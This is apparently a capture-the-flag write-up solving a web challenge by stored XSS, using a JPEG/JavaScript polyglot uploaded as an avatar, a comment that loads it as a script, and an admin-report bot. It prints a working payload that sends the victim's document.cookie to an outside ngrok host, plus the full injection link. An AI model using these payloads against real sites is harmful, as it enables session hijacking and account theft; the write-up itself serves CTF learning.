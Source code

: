🚩 Third Challenge

### Question

![1.png](./assets/1.png)
> Link: http://54.82.54.16/

### Solution
- This is how the website looks like
- ![2.png](./assets/2.png)
- This challenge was another nice challenge but the cool thing was that we saw it before in another CTF (CyberWarriors-JordanCTF) that me and my team participated in and got the 19th place
- We couldn't solve it then but we knew how to solve it after the CTF ended from this [writeup](https://zoznoor23.medium.com/yogosha-christmas-ctf-kara-jutsus-access-write-up-4ff3f67984a3) by the talented **Hamza Nour**
- So what's better than nice & already solved challenge before to solve again? 😀
- So we know it's an **XSS** because there is a **bot link (admin report)** and **profile picture upload**!
- ![3.png](./assets/3.png)
- When searching for `XSS through jpg image` you will find this [article](https://medium.com/@Medusa0xf/exploiting-xss-with-javascript-jpeg-polyglot-4cff06f8201a) _(Hiding Javascript code inside JPG image using **Polyglot**)_
- There is this [amazing tool](https://github.com/js-on/jpeg_polyglot_xss) to create polyglot payloads, this way is better and easier than the ways explained in the references above (but they explain how it works tho which is nice to know) _[Unfortunately this tool didn't work for me tho, it might work for you? maybe - but later on I found out it's probably missing some characters from the original exploit explanation]_
- We need to create a payload to be inside a JPEG image to upload it as our avatar to the website
- ![5.png](./assets/5.png)
- Then there is a comment section which confirms in Home it's an XSS exploit
- ![8.png](./assets/8.png)
- When you submit that you see our XSS portal in the url and the comment being added to the home page
- ![9.png](./assets/9.png)
- Amazing! now to the cool part
- Instead of using the mentioned tool above which didn't work me, I read this [article from portswigger](https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs)
- They've already crafted the [injected image](http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg) for you, all you have to do is to upload it and use burp repeater to edit the payload as follows
    - Open burp & start intercepting
    - Choose the injected image above and submit uploading it to the website
    - In burp, send the request to repeater and stop intercepting
    - Request should look like this in repeater
    - ![13.png](./assets/13.png)
- Now change the burp's payload (selected above) to your payload (below)
- `*/=document.location='https://b44a-2a01-9700-1a93-db00-5acb-e21c-32bb-f479.eu.ngrok.io/test?'+document.cookie/*`
- Send the request
- ![14.png](./assets/14.png)
- Once uploaded/sent you will get a warning and a `File is an image` message which means our injected image has been uplaoded successfully
- ![6.png](./assets/6.png)
- Now we need to get the file path of that avatar on the website using the HTML source code (Ctrl+U OR Right-Click > Inspect Element OR from burp response)
- ![7.png](./assets/7.png)
- Our image path was `./upload/1672270999151187401.jpg` which is `http://54.82.54.16//upload/1672270999151187401.jpg`and type that as a URL your injected image will be downloaded
- Now we need to add that image source to the home page using the comments section
- Note that we need to use `charset="ISO-8859-1"` in the img element due to this
- > On Firefox when using a UTF-8 character set for the document it corrupts the polyglot when included as an script! So to get the script to work we need to specify the ISO-8859–1 charset on the script tag and it executes fine.
- Here is out comment
```html
<script charset="ISO-8859-1" src="./upload/1672270999151187401.jpg"></script>
```
- ![10.png](./assets/10.png)
- This is the XSS link
```css
http://54.82.54.16//index.php?name=F30s&email=ayham&subject=IsHere&message=%3Cscript+charset%3D%22ISO-8859-1%22+src%3D%22.%2Fupload%2F1672270999151187401.jpg%22%3E%3C%2Fscript%3E&subcom=test
```
- Now we need to make the bot (in Admin Report) go to this XSS link
- ![11.png](./assets/11.png)
- VOILAAAA!!! You got the flag!
- ![12.png](./assets/12.png)
> Flag: `FLAG{K4ra_OnCe_Alw4y5_Kara????}`